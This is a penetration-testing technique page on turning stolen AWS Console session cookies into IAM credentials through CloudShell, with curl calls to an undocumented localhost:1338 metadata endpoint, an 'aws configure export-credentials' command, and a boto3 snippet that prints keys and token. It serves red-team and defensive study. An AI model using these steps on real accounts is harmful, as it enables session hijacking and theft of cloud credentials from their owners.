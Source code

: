 ```yaml
---
author_name: Nick Frichette
title: "Get IAM Credentials from a Console Session"
description: Convert access to the AWS Console into IAM credentials.
hide:
  - toc
---
```


# Get IAM Credentials from a Console Session

<div class="grid cards" markdown>
-   :material-account:{ .lg .middle } __Original Research__

    ---

    <aside style="display:flex">
    <p><a href="https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/">Retrieving AWS security credentials from the AWS consoletitle</a> by <a href="https://blog.christophetd.fr/">Christophe Tafani-Dereeper</a></p>
    <p><img src="/images/researchers/christophe_tafani-dereeper.jpg" alt="Christophe Tafani-Dereeper" style="width:44px;height:44px;margin:5px;border-radius:100%;max-width:unset"></img></p>
    </aside>
</div>

When performing a penetration test or red team assessment, it is not uncommon to gain access to a developer's machine. This presents an opportunity for you to jump into AWS infrastructure via credentials on the system. For a myriad of reasons you may not have access to credentials in the `.aws` folder, but instead have access to their browser's session cookies (for example via cookies.sqlite in FireFox).

Gaining access to the Console is great, but it may not be ideal. You may want to use certain tools that would instead require IAM credentials.

To get around this, we can leverage CloudShell. CloudShell exposes IAM credentials via an undocumented endpoint on port 1338. After loading session cookies from the victim into your browser, you can navigate to CloudShell and issue the following commands to get IAM credentials.

```
[user@cloudshell]$ TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")

[user@cloudshell]$ curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```

Alternatively, you can run the following command, which returns credentials with a short TTL (roughly 15m).

```
[user@cloudshell]$ aws configure export-credentials --format env
```

## Using boto3 to Retrieve Credentials

Alternatively, you can use Python's boto3 library directly within CloudShell to programmatically retrieve the credentials. This method can be useful when you need to integrate credential extraction into a Python script or automation workflow.

```python
import boto3

session = boto3.Session()
creds = session.get_credentials()
print({
    'AccessKey': creds.access_key, 
    'SecretKey': creds.secret_key, 
    'Token': creds.token
})
```

![POC Credentials Retrieval using boto3](../../images/aws/post_exploitation/get_iam_creds_from_console_session/poc_boto3_creds_retrieval.png)

This approach leverages boto3's automatic credential detection within the CloudShell environment, providing the same temporary credentials that are available through the metadata service endpoint. The credentials obtained this way will have the same TTL limitations as other methods described above.
